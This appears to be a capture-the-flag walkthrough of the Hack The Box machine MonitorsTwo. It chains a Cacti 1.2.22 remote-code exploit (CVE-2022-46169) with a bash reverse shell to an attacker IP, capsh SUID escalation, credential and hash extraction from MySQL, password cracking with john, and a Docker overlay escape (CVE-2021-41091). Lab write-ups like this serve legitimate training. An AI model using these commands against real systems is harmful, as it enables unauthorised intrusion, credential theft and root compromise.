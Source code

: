 <h2>Target: 10.129.216.181 MonitorsTwo </h2>

<b>Initial Access:</b><br>
Step 1: nmap -Pn --min-rate=5000 10.129.216.181 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Nmap shows open ports: 22,80

Step 2: Enumerate these open ports further with nmap: nmap -Pn --min-rate=5000 10.129.216.217 -p 22,80 -sC -sV -oN nmap-Monitorstwo

![image](https://user-images.githubusercontent.com/93153300/236199579-156c9490-d541-4b58-ac85-615dfa945a7a.png) 

Step 3: Navigating to port 80 shows: 

![image](https://user-images.githubusercontent.com/93153300/236199632-d3fbeb63-5b41-4d1f-8db0-6b1079099832.png) 
 
Under the login it shows Cacti version 1.2.22.  Google search ‘cacti 1.2.22 exploit’ for known exploits.   Our search shows plenty of articles for an unauthenticated rce.  We will use the one on github: https://github.com/sAsPeCt488/CVE-2022-46169 

Download the exploit by running the command: git clone https://github.com/sAsPeCt488/CVE-2022-46169.git

Step 4:  Open a netcat listener to catch the reverse shell that we will fire with this exploit: nc -lvnp 443

Step 5: Run the exploit with the command: python CVE-2022-46169.py http://put-targetip-here -c 'bash -i >& /dev/tcp/replace-with-your-ip/443 0>&1' 

The exploit seemed to fail.  Open the exploit with a text editor and change line 38 where it says /bin/sh to /bin/bash:<br>
Was: payload = f'; /bin/sh -c "{cmd}" <br>
New: payload = f'; /bin/bash -c "{cmd}"'<br>
Run the same command again:

![image](https://user-images.githubusercontent.com/93153300/236199657-cfafa88d-bb9c-48cf-be6e-69b8142e55d3.png) 
  
The exploit worked, we have shell as www-data.
_______________________________________________
<b>Docker Privilege Escalation:</b><br>
Step 1: Look at the root directory to see what we have: ls -al /

![image](https://user-images.githubusercontent.com/93153300/236199698-247a35c4-b6f3-4567-a9c3-84a7ab5bcef4.png) 
 
The root directory shows a ‘.dockerenv’ which indicates that we are in a docker.  

Step 2: Check what suid binaries we have: find / -perm /4000 -ls 2>/dev/null

![image](https://user-images.githubusercontent.com/93153300/236199722-310914b1-198a-42c0-a2dd-b11eb1731ea2.png) 
 
This shows we have suid on /sbin/capsh. 

Step 3: Google search ‘gtfobins capsh’ shows how to use the ‘capsh’ suid to escalate to root:

![image](https://user-images.githubusercontent.com/93153300/236199752-634c768b-2f01-405e-a386-e456e23d0991.png) 

Run the command: /sbin/capsh --gid=0 --uid=0 --

We have shell as user root in the docker.  
__________________________________________________
<b>Docker Escape:</b><br>
Step 1: Looking back at the root directory, we see a non standard file called ‘entrypoint.sh’:

![image](https://user-images.githubusercontent.com/93153300/236199784-eb8f2509-5e0a-4c90-8f31-d1f1d27405ca.png) 

Step 2: Read the file ‘entrypoint.sh’: cat entrypoint.sh 

![image](https://user-images.githubusercontent.com/93153300/236199807-f07fde05-35e0-400b-b61d-fcf6c35ce17b.png) 
  
The file shows credentials for the mysql database: username ‘root’ and password ‘root cacti’.

Step 3: Log into the mysql database: mysql --host=db --user=root --password=root cacti 

Step 4: Check what databases we have: show databases;

![image](https://user-images.githubusercontent.com/93153300/236199835-652a739f-49ac-41be-a498-95c56c70d75c.png) 
 
Select the database ‘cacti’ by using the command: use cacti

Step 5: Check what tables we have on the database ‘cacti’: show tables;

The command shows a lot of table names.  Let’s check table name ‘user_auth’ because the name of that table seems like it may contain credentials.  Run the command: select * from user_auth;

![image](https://user-images.githubusercontent.com/93153300/236199860-2acd5e67-e4e0-49d4-8aa5-dae631fe24f7.png) 
 
We find username admin and marcus and the hashes of their passwords.  

Let’s try to crack these hashes. 

Step 6: Create a file called ‘hash’ and place the hashes in the file (each hash on a seperate line).  To find out the type of hash being used run the command: nth -f hash

Nth command returns that the hash being used is bcrypt. 

Step 7: Use john to crack the hash: john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt

John cracked marcus’s hash: funkymonkey

Step 8: Login to marcus’s account with ssh: ssh marcus@monitorstwo.htb

We have shell as user marcus.  We can get the flag at /home/marcus/user.txt.
___________________________________________
<b>Privilege Escalation:</b><br>
Step 1: Upon ssh login to user marcus we see:

![image](https://user-images.githubusercontent.com/93153300/236199917-2c251cba-9bb1-43b6-95bb-299d12e9765d.png) 

This shows user marcus has mail.  Mail is usually found in /var/mail.  Read marcus’s mail: cat /var/mail/marcus 

![image](https://user-images.githubusercontent.com/93153300/236199939-df26572a-5dea-4e23-9c5f-ffb0fae51c74.png) 

This shows a few vulnerabilities that might still be in place that we can exploit.  

Step 2: Google search ‘github CVE-2021-41091’ shows a few pages that explains how the exploit works.  We will look at https://github.com/UncleJ4ck/CVE-2021-41091

Step 3: The first part of the exploit requires finding the ‘overlay’ docker mount locations.  A simple way to do this is to run the command: findmnt 
 
![image](https://user-images.githubusercontent.com/93153300/236199967-a8df342e-c436-4650-a7e6-3ec1ba73f041.png) 
  
The output to the ‘findmnt’ command shows a few ‘overlay’ docker mounted locations.  

Step 4: Navigate to each ‘overlay’ docker location listed until we find the docker ‘overlay’  that matches the docker we have a root shell on from before.  An easy way to confirm this is to compare the /etc/passwd file of the root docker shell with the etc/passwd file in the ‘overlay’ docker.  

Using this comparison we find the matching ‘overlay’ docker location is: var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

Move to that directory location: cd var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

Step 5: Check suid binaries: find ./ -perm /4000 -ls 2>/dev/null

![image](https://user-images.githubusercontent.com/93153300/236200015-b850cfd8-d2c0-4194-98d3-c5740eb795f7.png) 

While we do have the same suid of /sbin/capsh as we did earlier we cannot use it to escalate to root.  If we try, it shows an error.  

Step 6: Since the root docker shell and the marcus ‘overlay’ docker directory seem to share the same files, let’s create a suid for /bin/bash in the root docker shell and then try to use that suid in the marcus shell.  In the root docker shell run the command: chmod 4755 /bin/bash

Then go back to the marcus shell in the directory ‘var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged’ and check the suid binaries again:

![image](https://user-images.githubusercontent.com/93153300/236200046-bb6266c6-6b39-4aed-9c89-6561606cb877.png) 

We see the bin/bash is now a suid on the marcus shell.  Pay attention to detail here, do not confuse the /bin/bash with the bin/bash.

Step 7: On the marcus shell run the command: bin/bash -p

We have shell as root.  We can get the flag in /root/root.txt. 
